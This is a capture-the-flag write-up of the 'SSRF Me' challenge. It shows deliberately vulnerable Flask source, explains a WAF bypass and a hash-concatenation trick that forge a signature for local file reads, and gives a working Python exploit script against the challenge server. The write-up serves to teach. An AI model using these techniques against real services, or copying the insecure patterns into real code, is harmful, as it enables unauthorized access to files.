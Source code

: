 # SSRF Me - Writeup 
##### By *sh4d0w58*

### Description:

>SSRF ME TO GET FLAG. [http://139.180.128.86/](http://139.180.128.86/)

### Solution:

On visiting [http://139.180.128.86/](http://139.180.128.86/) we are given the source code of the Flask App that we are interfacing with:

```
#! /usr/bin/env python 
#encoding=utf-8 
from flask import Flask 
from flask import request 
import socket 
import hashlib 
import urllib 
import sys 
import os 
import json 

reload(sys) 
sys.setdefaultencoding('latin1') 
app = Flask(__name__) 
secert_key = os.urandom(16) 

class Task: 
	def __init__(self, action, param, sign, ip): 
		self.action = action 
		self.param = param 
		self.sign = sign 
		self.sandbox = md5(ip) 
		if(not os.path.exists(self.sandbox)): 
			#SandBox For Remote_Addr 
			os.mkdir(self.sandbox) 

	def Exec(self): 
		result = {} 
		result['code'] = 500 
		if (self.checkSign()): 
			if "scan" in self.action: 
				tmpfile = open("./%s/result.txt" % self.sandbox, 'w') 
				resp = scan(self.param) 
				if (resp == "Connection Timeout"): 
					result['data'] = resp 
				else: 
					print resp 
					tmpfile.write(resp) 
					tmpfile.close()
					result['code'] = 200 
			if "read" in self.action: 
				f = open("./%s/result.txt" % self.sandbox, 'r') 
				result['code'] = 200 
				result['data'] = f.read() 
			if result['code'] == 500: 
				result['data'] = "Action Error" 
		else: 
			result['code'] = 500 
			result['msg'] = "Sign Error" 
		return result 

	def checkSign(self): 
		if (getSign(self.action, self.param) == self.sign): 
			return True 
		else: 
			return False 

#generate Sign For Action Scan. 
@app.route("/geneSign", methods=['GET', 'POST']) 
def geneSign(): 
	param = urllib.unquote(request.args.get("param", "")) 
	action = "scan" 
	return getSign(action, param) 

@app.route('/De1ta',methods=['GET','POST']) 
def challenge(): 
	action = urllib.unquote(request.cookies.get("action")) 
	param = urllib.unquote(request.args.get("param", "")) 
	sign = urllib.unquote(request.cookies.get("sign")) 
	ip = request.remote_addr 
	if(waf(param)): 
		return "No Hacker!!!!" 
	task = Task(action, param, sign, ip) 
	return json.dumps(task.Exec()) 

@app.route('/') 
def index(): 
	return open("code.txt","r").read() 

def scan(param): 
	socket.setdefaulttimeout(1) 
	try: 
		return urllib.urlopen(param).read()[:50] 
	except: 
		return "Connection Timeout" 

def getSign(action, param): 
	return hashlib.md5(secert_key + param + action).hexdigest() 

def md5(content): 
	return hashlib.md5(content).hexdigest()

def waf(param): 
	check=param.strip().lower() 
	if check.startswith("gopher") or check.startswith("file"): 
		return True 
	else: 
		return False 

if __name__ == '__main__': 
	app.debug = False 
	app.run(host='0.0.0.0',port=80)
```

Looking over it, we see that visiting `"/De1ta"` will execute the `challenge()` function and construct a new `Task` object with an `action`, `param`, and `sign` that we provide as cookies and a GET parameter. (Also our `ip` is passed to it). Then it will call the `Exec()` method of the object and return the json result.

```
task = Task(action, param, sign, ip) 
return json.dumps(task.Exec()) 
```

Inside `Exec()`, `checkSign()` is called. This function checks whether the `sign` value is the same as the value generated by `getSign()`. We have to pass this check to move on to the rest of `Exec()`.

```
def checkSign(self): 
		if (getSign(self.action, self.param) == self.sign): 
			return True 
		else: 
			return False
```

`getSign()` performs an md5 hash with `secret_key + param + action`. `secret_key` is a random value that is generated by the App, so we don't know it.

```
def getSign(action, param): 
	return hashlib.md5(secert_key + param + action).hexdigest() 
``` 

So now we need a way to generate a valid sign. Making a request to `/geneSign` will generate a `sign` value for us, however it will only allow us to pass it the `param` value and the `action` value will be set to `"scan"`.

```
@app.route("/geneSign", methods=['GET', 'POST']) 
def geneSign(): 
	param = urllib.unquote(request.args.get("param", "")) 
	action = "scan" 
	return getSign(action, param) 
```

Now that we can generate a valid `sign` value, we can pass the check and move on to the rest of `Exec()`. The first `if` case checks if `"scan"` is `in` `action`. Notice, it does not check whether `action == "scan"`, only whether it contains it. This will be important later. The `"scan"` action will make a request with the value of `param` and write it to a file.

```
if "scan" in self.action: 
	tmpfile = open("./%s/result.txt" % self.sandbox, 'w') 
	resp = scan(self.param) 
	if (resp == "Connection Timeout"): 
		result['data'] = resp 
	else: 
		print resp 
		tmpfile.write(resp) 
		tmpfile.close()
		result['code'] = 200 
```

The second `if` case performs the same check with `"read"`. This action will read the file that we just wrote the result of `"scan"` to.

```
if "read" in self.action: 
	f = open("./%s/result.txt" % self.sandbox, 'r') 
	result['code'] = 200 
	result['data'] = f.read() 
```

Going back to the `"scan"` case, we see the function `scan()` is called with our `param`. This function will use `urllib.urlopen()` to perform the request and this is where the SSRF vulnerability is.

```
def scan(param): 
	socket.setdefaulttimeout(1) 
	try: 
		return urllib.urlopen(param).read()[:50] 
	except: 
		return "Connection Timeout" 
```

To read local files we could use the `"file://"` protocol, however any `param` value that starts with `"file"` or `"gopher"` is blocked in the `challenge()` function. I believe there are multiple ways to get past this, but I noticed that starting `param` without a protocol would attempt to read files from the file system. The challenge hint says...

>flag is in ./flag.txt

This will allow us to read the flag into a file, but we will not be able to read it without a valid sign with the action **including** `"read"`. If we can generate a sign for the `action` as `"readscan"`, we can perform the scan and read the result in one go.

Notice, `geneSign()` will perform an md5 hash of `secret + param + action` so we can pass the value of `param` as `"flag.txtread"` (the value of `action` will be `"scan"`) and generate the *same* hash as if we pass `param` as `"flag.txt"` and `action` as `"readscan"`.

```"flag.txtread"+"scan" == "flag.txt"+"readscan"```

You could also use a length extension attack, but this way is more simple.

So our exploit is complete.

We get the flag `"de1ctf{27782fcffbb7d00309a93bc49b74ca26}"`

### Full Code:

```
import requests

def geneSign(param):
	return requests.get("http://139.180.128.86/geneSign?param="+param).text

realParam = "flag.txt"

param = realParam+"read"
sign = geneSign(param)
param = realParam

action = "readscan"

answer = requests.get("http://139.180.128.86/De1ta?param="+param, cookies={"action":action,"sign":sign}).text

print(answer)
```
